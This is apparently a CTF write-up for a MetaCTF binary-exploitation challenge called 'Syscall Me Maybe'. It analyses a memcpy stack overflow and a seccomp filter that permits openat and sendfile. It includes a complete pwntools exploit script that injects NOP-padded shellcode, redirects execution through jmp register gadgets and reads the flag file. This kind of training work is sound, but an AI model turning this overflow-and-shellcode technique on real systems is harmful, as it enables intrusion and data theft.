







# Syscall Me Maybe - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:



---

## Challenge Summary

This challenge involves a binary with a seccomp filter that restricts certain system calls. The attacker must bypass this filter to inject and execute shellcode. The goal is to open the `/tmp/flag.txt` file and send its contents to `STDOUT`. The binary is vulnerable to a buffer overflow, allowing the attacker to overwrite control flow and redirect execution to their injected shellcode. The seccomp filter must be bypassed to allow the necessary syscalls for reading and outputting the flag.

## Binary Information

```bash
$ file chal
```



```bash
$ pwn checksec chal
```



---

## Static Analysis (IDA Pro)

The `main()` function initializes buffers and handles user input via `fgets()`. The program sets up a seccomp filter using `prctl()` to restrict certain syscalls and calls `setup_seccomp()` to further enforce these restrictions.



In the `main()` function:

- A large buffer `s[1024]` is allocated for user input.
- Another smaller buffer `dest[76]` is used to copy data.
- The program then reads input using `fgets()` and copies the data with `memcpy()`.



**Issue:** The program uses `memcpy()` to copy 1024 bytes into a 76-byte buffer (`dest`), causing a **buffer overflow**. This allows an attacker to overwrite adjacent memory, including control data like the return address, which can be exploited to redirect execution to injected shellcode or a **ROP chain**.

Additionally, the seccomp filter is in place, which restricts certain syscalls. This requires bypassing the filter to execute shellcode or perform other actions like reading the flag.

The **buffer overflow** and **seccomp filter** are the critical points of exploitation in this program.

---

## Exploit Strategy

### Objective:

Bypass the **seccomp filter**, exploit the **buffer overflow**, inject **shellcode** using allowed syscalls (`openat` and `sendfile`), and retrieve the flag from `/tmp/flag.txt`.

### Steps:

1. **Bypass Seccomp**:

   - The seccomp filter blocks dangerous syscalls but allows `openat` and `sendfile`.
   - Use `openat` to open `/tmp/flag.txt` and `sendfile` to send its contents to `STDOUT`.

2. **Exploit Buffer Overflow**:

   - Overflow the `dest` buffer (`memcpy(dest, s, 0x400)`) with user input, overwriting the return address and redirecting execution to injected shellcode.

3. **Inject Shellcode**:

   - Craft shellcode that:

     - Opens `/tmp/flag.txt` with `openat`.
     - Sends the contents to `STDOUT` using `sendfile`.

   - Use a NOP sled to ensure shellcode is reliably executed.

4. **Redirect Execution**:

   - Overwrite the return address or use a ROP chain to redirect execution to the shellcode after the overflow.

5. **Trigger Exploit**:

   - Send the crafted payload to the program to overflow the buffer and execute the shellcode.

6. **Capture Flag**:

   - Once shellcode executes, the flag will be printed to the output. Capture it.

### Goal:

Overflow the buffer, bypass seccomp with `openat` and `sendfile`, inject and execute shellcode, and retrieve the flag.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template chal --host host5.metaproblems.com --port 7527
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7527)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX unknown - GNU_STACK missing
# PIE:        No PIE (0x400000)
# Stack:      Executable
# RWX:        Has RWX segments
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

shellcode = shellcraft.amd64.linux.openat(constants.AT_FDCWD, "/tmp/flag.txt", constants.O_RDONLY)
shellcode += shellcraft.amd64.linux.sendfile(constants.STDOUT_FILENO, 'rax', 0, 0x64)
shellcode = asm(shellcode)

rop = ROP(exe)


if args.LOCAL:
	jmp_rbx = 0x000000000040197a
	payload =  shellcode.ljust(88, b'\x90')
	payload += p64(jmp_rbx)
	payload += shellcode.ljust(88, b'\x90') * 4
	io.sendlineafter(b"Syscall me maybe?: ", payload)
	io.recvuntil(b"\x90\x90\x90\x90\x90\x90\x90\x90\x90z\x19@")
	flag = io.recvregex(br'MetaCTF{.*?}')
	log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")
else :
	jmp_rcx = 0x000000000040197c
	payload =  shellcode.ljust(88, b'\x90')
	payload += p64(jmp_rcx)
	io.sendlineafter(b"Syscall me maybe?: ", payload)
	io.recvuntil(b"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90|\x19@")
	flag = io.recvregex(br'MetaCTF{.*?}')
	log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output



---

## Vulnerability Summary

The program contains two main vulnerabilities:

1. **Buffer Overflow**:
   The program uses the function `memcpy(dest, s, 0x400)` to copy 1024 bytes from `s` (input buffer) into `dest` (a 76-byte buffer). This causes a **buffer overflow**, overwriting adjacent memory, including the return address. This can be exploited to redirect the execution flow to injected shellcode or a ROP chain, giving the attacker control over the program.

2. **Seccomp Filter**:
   Although a seccomp filter is applied to restrict syscalls, the program **allows `openat`** and **`sendfile`** syscalls. These allowed syscalls can be used to bypass the filter, enabling the attacker to open the flag file (`/tmp/flag.txt`) and send its contents to `STDOUT`. The attacker can craft a payload to leverage these syscalls and execute shellcode that reads and outputs the flag.

By exploiting the buffer overflow and using the allowed syscalls, an attacker can execute arbitrary code, bypass security mechanisms, and retrieve the flag.

---

## Flag

```
MetaCTF{l00k5_l1k3_s0m3_unf0r7unate_5ysc4lls_g0t_4dd3d_7o_7h3_51gnal_ch4t}
```
